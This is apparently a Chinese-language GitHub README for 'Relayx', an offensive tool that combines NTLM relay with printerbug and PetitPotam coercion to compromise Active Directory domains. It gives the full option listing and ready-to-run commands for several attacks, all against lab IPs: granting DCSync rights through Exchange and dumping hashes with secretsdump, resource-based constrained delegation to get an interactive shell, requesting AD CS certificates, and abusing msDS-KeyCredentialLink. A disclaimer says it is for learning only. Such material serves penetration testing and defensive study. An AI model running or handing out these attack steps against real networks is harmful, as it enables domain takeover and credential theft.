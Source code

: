 # Relayx
## 声明
**一切开发旨在学习，请勿用于非法用途**

## Usage
将几个比较好用的relay集成到了一起，提高测试效率。
```
DCpwn with ntlmrelay

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address> or LOCAL (if you want to parse local files)

options:
  -h, --help            show this help message and exit
  -r CALLBACK_IP, --callback-ip CALLBACK_IP
                        Attacker callback IP
  --timeout TIMEOUT     timeout in seconds
  --debug               Enable debug output
  -ts                   Adds timestamp to every logging output
  --no-trigger          Start exploit server without trigger.
  --no-attack           Start trigger for test.
  --smb-port SMB_PORT   Port to listen on smb server
  -rpc-smb-port [destination port]
                        Destination port to connect to SMB Server

authentication:
  -hashes LMHASH:NTHASH
                        Hash for account auth (instead of password)

connection:
  -dc-ip ip address     IP address of the Domain Controller
  -adcs-ip ip address   IP Address of the ADCS, if unspecified, dc ip will be used
  --ldap                Use ldap.
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it

attack:
  -m {rbcd,pki,sdcd}, --method {rbcd,pki,sdcd}
                        Set up attack method, rbcd or pki or sdcd (shadow credential)
  -t {printer,efs}, --trigger {printer,efs}
                        Set up trigger method, printer or petitpotam
  --impersonate IMPERSONATE
                        target username that will be impersonated (thru S4U2Self) for quering the ST. Keep in mind this will only work if the identity provided in this scripts is allowed for delegation to the SPN specified
  --add-computer [COMPUTERNAME]
                        Attempt to add a new computer account
  -pipe {efsr,lsarpc,samr,netlogon,lsass}
                        Named pipe to use (default: lsarpc)
  --template TEMPLATE   AD CS template. If you are attacking Domain Controller or other windows server machine, default value should be suitable.
  -pp PFX_PASS, --pfx-pass PFX_PASS
                        PFX password.
  -ssl                  This is useful when AD CS use ssl.

execute:
  -shell                Launch semi-interactive shell, Default is False
  -share SHARE          share where the output will be grabbed from (default ADMIN$)
  -shell-type {cmd,powershell}
                        choose a command processor for the semi-interactive shell
  -codec CODEC          Sets encoding used (codec) from the target's output (default "GBK").
  -service-name service_name
                        The name of theservice used to trigger the payload
  -mode {SHARE,SERVER}  mode to use (default SHARE, SERVER needs root!)
```
## 认证触发
工具中包含了两种触发机器回连的操作。
printerbug 和 PetitPotam。 触发可通过指定参数来实现，默认使用printerbug
```
-t printer  # 使用 打印机bug  触发
-t efs      # 使用 MS-EFSRPC 触发
```

如果不需要工具主动去触发回连，可以添加参数`--no-trigger`,这样就可以通过其他方式来进行触发,同样的，可以添加参数`--no-attack`来指定只触发回连。

## 攻击场景
目前支持三种攻击方式
```
-m rbcd     # 普通域成员RBCD，高权限，添加Dcsync权限
-m pki      # 向AD CS申请证书
-m sdcd     # 通过ldap添加 msDS-KeyCredentialLink 属性进行攻击，需要 Server >= 2016
```
### 一、攻击Exchange服务器
默认Exchange的服务权限较高，所以工具会利用Exchange的权限将当前用户增加Dcsync权限。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.201 -r 10.211.55.2 -dc-ip 10.211.55.200
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728171035.png)

>目标的方式可以使用impacket的方式来写，@后跟目标即可，-r 是回连IP，也就是我们的攻击IP，-dc-ip 指定要去认证或者请求的DC ip, 后面一样，就不再重复。

攻击之后，当前用户可进行dcsync：
```
secretsdump.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.200 -just-dc-user cgdomain\\exchange$
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728171339.png)

使用aclpwn可进行还原(这里需要exchange服务器的机器账号hash):
```
aclpwn -r aclpwn-xxxxx-xxxxx.restore
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728171452.png)


### 二、攻击域成员机器
攻击普通服务器会自动使用RBCD（基于资源的约束委派）来攻击，所以这里需要域级别>= Server2012R2。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.202 -r 10.211.55.2 -dc-ip 10.211.55.203 -shell
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728172026.png)

攻击成功后，会自动获取一个交互式shell，并会生成一个ccache文件供以后使用，这里默认会模拟`administrator`的身份，如果不存在administrator，可通过`--impersonate` 来指定目标用户,如果未添加`-shell`参数，只保存请求到的票据。

>这里默认会添加一个新的计算机账号，可通过--add-computer 来指定机器名，不指定则为随机名。

### 三、攻击AD CS
这里要求目标环境安装了`AD CS`。攻击AD CS 可以通过`-m pki` 来指定。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.202 -r 10.211.55.2 -dc-ip 10.211.55.200 -m pki
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728173221.png)

这里会向CS申请一个机器账号的证书，之后通过Rubues进行后续攻击即可。

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728173445.png)


### 四、利用msDS-KeyCredentialLink
类似于RBCD，优点是不需要添加计算机账号，缺点是需要Server版本高于2016, 可通过`-m sdcd` 来指定。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.202 -r 10.211.55.2 -dc-ip 10.211.55.200 -m sdcd
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210803105506.png)

>本地没2016环境。所以会报个错。

后续可通过Rubues进行后续攻击。

## 编译
可以使用以下命令进行编译
```
pyinstaller -F -c relayx.py --collect-all impacket --add-data 'comm/ntlmrelayx/attacks/*:comm/ntlmrelayx/attacks'
```